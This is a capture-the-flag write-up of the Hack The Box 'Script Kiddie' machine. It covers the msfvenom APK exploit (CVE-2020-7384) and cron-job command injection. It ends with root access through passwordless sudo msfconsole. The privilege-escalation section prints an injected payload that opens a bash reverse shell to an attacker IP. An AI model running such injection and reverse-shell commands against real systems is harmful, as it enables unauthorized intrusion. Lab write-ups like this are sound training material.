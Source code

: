 ```yaml
---
categories: ["ctf"]
tags: ["htb"]
title: "Script Kiddie Writeup"
linkTitle: "Script Kiddie"
date: 2023-03-06
weight: 200
---
```


![image](images/1_script_kiddie.png)

**Script Kiddie!**<br>
What is the author (0xdf) implying to us?

A box for script kiddies?<br>
Or is it a box for us to stand out from the script kiddies?<br>
My guess would be the latter…

Keep in mind, the destination (root.txt) is not what’s important, it’s the journey (every line that got us to root.txt) that counts.

**With that said, let’s begin!**

---

## **Enumeration**

![image](images/2_nmap_scan.png)

Nmap scan reveals `Werkzeug httpd 0.16.1 (Python 3.8.5)` running on port 5000.

---

![image](images/3_visit_site.png)

Quite a few options are available to play with… Nmap, Msfvenom, Searchsploit…

---

![image](images/4_werkzeug_metasploit.png)

The Werkzeug module available from Metasploit will spawn a Python shell, provided if we had access to a **Werkzeug debug console**. But since we don’t, this exploit is unusable for us.

---

## **Exploitation**

![image](images/5_venom_metasploit.png)

The exploit we are using is `CVE-2020–7384`, one that leverages the mishandling of apk files by Msfvenom to grant us a reverse shell.

We'll start by configuring the necessary parameters in Metasploit.

---

![image](images/6_first_netcat_wait.png)

Setting up Netcat listener on port 4444.

---

![image](images/7_upload.png)

With the `os` set as Android, `lhost` set as some funny ip, we can proceed to upload the APK.

---

![image](images/8_first_success.png)

***Voila!*** And we’ve got user access to the machine.

---

## **Privilege Escalation**

![image](images/9_scanlosersh.png)

`/home/pwn/scanlosers.sh`

![image](images/10_hackers.png)

`home/kid/logs/hackers`

There’s an interesting script `scanlosers.sh`, within user directory of `pwn`, but we (the `kid` user) unfortunately only have read access to it.

That said, since it takes in input from the `hackers` file, which we is owned by us (`kid`). Thus, `scanlosers.sh` is still accessible by us in some ways.

---

![image](images/11_cron_sus.png)

After writing some random stuff into `hackers`, but the file seems to remain empty. It brought up suspicion that a cronjob of `scanlosers.sh` was running, as the last line of `scanlosers.sh` - `echo -n > $log` will clear the `hackers` file.

---

![image](images/12_echo_hello.png)

First Shell: echoing `hello` into `hackers`

![image](images/13_cron_gottem.png)

Second Shell: running `pspy64`, catches the cronjob of our payload `hello`

To confirm our suspicion, we will use [**pspy**](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64), a command line tool designed for snooping on commands run by other users, cron jobs, etc.

I have downloaded the 64-bit binary version and used `nc` to transfer the binary over to the Script Kiddie machine. (feel free to skip this step or try it out for yourself)

1. Initiate two reverse shells.
2. The first shell runs our test payload `hello`
3. The second shell runs the `pspy64` binary, and was able to catch the details of the cronjob.

Indeed, we are able to confirm a cronjob was running in the background, meaning that `/home/pwn/scanlosers.sh` will be executed for each time `/home/kid/log/hackers` is being altered.

---

![image](images/14_explanation.png)

Some explanations, our payload is basically a [**Bash TCP Shell**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp). Description for each *gate* from `scanlosers.sh` are as following:

1. Remove `tuna` and `salmon`.
2. Sort our payload if it has more than one line, since we don’t, we’re good.
3. Stores our payload into the `ip` variable.

---

![image](images/15_2nd_scanlosers.png)

When our payload is parsed and executed, they will be run as:

1. `sh -c “nmap --top-ports 10 -oN recon/;`<br>
   Doesn't do anything since it is an incomplete nmap command, no ip address is supplied.
2. `/bin/bash -c ‘bash -i >&/dev/tcp/10.10.14.50/8888 0>&1’`<br>
   ***The Bash TCP Shell we need!***
3. `#.nmap ${ip} 2>&1 >/dev/null” &...`<br>
   Using the `#` to comment out everything else

---

![image](images/16_second_shell.png)

Setting up Netcat listener on port 8888.

---

![image](images/17_echo_payload.png)

***Moment of Truth!***

Writing our payload into `hackers`.

`echo “tuna salmon ;/bin/bash -c ‘bash -i >&/dev/tcp/10.10.14.50/8888 0>&1’ #” >> hackers`

---

![image](images/18_got_pwn.png)

After having logged in as `pwn`, with `sudo -l` we found out that we are able to run `msfconsole` as root without the need of password.

---

![image](images/19_sudo_meta.png)

Now let’s run `msfconsole` as sudo.

`sudo /opt/metasploit-framework-6.0.9/msfconsole`

---

![image](images/20_root_flag.png)

***Jackpot!***

And there we have it!

## **Afterthoughts**

Overall, **ScriptKiddie** teaches the basic yet core concepts of the HTB platform:

- Metasploit
- Cronjobs
- Bash scripting
- `sudo -l`

It is one box that should definitely be recommend for the newcomers!